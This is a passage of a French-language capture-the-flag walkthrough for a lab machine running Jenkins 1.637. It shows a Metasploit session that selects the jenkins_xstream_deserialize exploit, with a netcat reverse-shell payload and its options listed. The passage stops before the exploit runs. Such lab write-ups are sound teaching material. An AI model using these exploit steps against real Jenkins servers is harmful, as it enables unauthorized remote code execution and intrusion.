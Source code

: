 ![Jenkins](./images/jenkins.png)

La version (1.637) est indiqué en bas de la page :

![Version de Jenkins](./images/jenkins_version.png)

Il existe différents exploits pour cette version de Jenkins.

La box a été concue pour utiliser `exploit/multi/http/jenkins_script_console`.\
Mais on peut utiliser l'exploit plus récent et mieux noté __`exploit/multi/http/jenkins_xstream_deserialize`__.

```bash
msf6 > use exploit/multi/http/jenkins_xstream_deserialize
[*] No payload configured, defaulting to cmd/unix/reverse_netcat

msf6 exploit(multi/http/jenkins_xstream_deserialize) > options 

Module options (exploit/multi/http/jenkins_xstream_deserialize):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PSH_PATH                    no        Path to powershell.exe
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8080             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The base path to Jenkins
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.0.2.15        yes       The listen address (an interface may be specified)
```